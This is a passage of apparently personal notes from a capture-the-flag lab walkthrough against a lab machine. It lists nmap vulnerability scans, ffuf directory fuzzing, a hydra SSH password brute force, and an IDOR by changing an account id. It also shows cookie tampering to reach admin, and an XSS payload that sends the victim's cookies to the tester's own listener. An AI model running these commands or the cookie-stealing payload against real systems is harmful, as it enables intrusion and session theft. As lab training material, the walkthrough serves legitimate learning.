 
# Nmap: 

Lets start with a basic scan and see what we can find:
`sudo nmap -sV -sC 10.129.95.191 -oN nmap.basic`

![[Pasted image 20250519225432.png]]

When that scan is done I want to do a deeper scan and run that while I do other tasks.

`sudo nmap -p- -sV -sC --script=default,vuln,exploit -T4 -oN nmap.full 10.129.95.191`

^^ ==This scan returned a ton of CVEs for bother services so I am looking into that== 

![[Pasted image 20250519232120.png]]

==Thoughts==: Looks like http is open, so lets navigate there.

==Might as well scan the server with NUCLEI== <- Gets us nothing.

I did find an email though:
![[Pasted image 20250519230444.png]]

Let's research what we can do with this

# Lets use ffuf!
`ffuf -w /opt/redteam/Assetnote/automated/httparchive_directories_1m_2024_05_28.txt -u http://10.129.95.191/FUZZ`

^^ ==found many directories but most are not accessible==

# Brute force ssh with `admin` username:
`hydra -l admin -P /opt/redteam/SecLists/Passwords/Leaked-Databases/rockyou-75.txt ssh://10.129.95.191 -V -t 4`

^^ This puppy went for 8 hours. I got nothin..


# Found url /cdn-cdi/login:
1. Allows guest login
2. You can abuse the url:
	1. `http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=1`
![[Pasted image 20250520223318.png]]


# Vulnerable to XSS:

I opened up a python server

`http://10.129.95.191/cdn-cgi/login/admin.php?content=clients&orgId=%3Cscript%3Enew%20Image().src%3D%27http%3A//10.10.16.54/cookie%3Fc%3D%27%2Bdocument.cookie;%3C/script%3E`

# Edit the cookie:

![[Pasted image 20250520230417.png]]

I changed the id to 34332 and the user to admin to get access to the uploads page.

==The user john (user 4) is also present==
![[Pasted image 20250521223123.png]]


==Super admin==
![[Pasted image 20250521223643.png]]